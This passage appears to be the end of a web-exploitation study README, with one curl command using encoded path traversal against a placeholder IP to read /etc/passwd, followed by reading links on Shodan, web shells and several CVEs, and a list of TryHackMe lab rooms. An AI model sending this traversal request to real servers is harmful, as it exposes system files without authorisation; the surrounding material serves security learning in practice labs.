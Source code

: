 ```
curl http://<IP>:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

<img src="./assets/path_traversal.png" width=600 height=250>

# Further reading

1. [Shodan API](https://developer.shodan.io/api/clients)

2. [Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

3. [How WSO2 CVE-2022-29464 works](https://github.com/tufanturhan/wso2-rce-cve-2022-29464)

4. [Apache Spark CVE-2022-33891](https://securityonline.info/cve-2022-33891-apache-spark-shell-command-injection-vulnerability/)

5. [Apache CVE-2021-41773](https://www.picussecurity.com/resource/blog/simulate-apache-cve-2021-41773-exploits-vulnerability)

# Activities

1. [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

2. [Bounty Hacker](https://tryhackme.com/room/cowboyhacker)

3. [Dav](https://tryhackme.com/room/bsidesgtdav)

4. [Jack of All Trades](https://tryhackme.com/room/jackofalltrades)

5. [Smag Grotto](https://tryhackme.com/room/smaggrotto)

6. [Overpass](https://tryhackme.com/room/overpass)

7. [Madness](https://tryhackme.com/room/madness)

